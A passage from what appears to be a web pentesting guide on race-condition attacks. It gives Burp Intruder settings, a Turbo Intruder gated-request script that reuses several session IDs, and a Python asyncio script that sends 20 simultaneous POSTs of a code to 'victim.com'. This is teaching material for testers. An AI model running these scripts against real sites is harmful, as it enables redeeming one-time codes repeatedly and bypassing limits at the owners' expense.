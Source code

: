 * **Repeater:** Check the examples from the previous section.
* **Intruder**: Send the **request** to **Intruder**, set the **number of threads** to **30** inside the **Options menu and,** select as payload **Null payloads** and generate **30.**
* **Turbo Intruder**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

* **Python - asyncio**

```python
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```
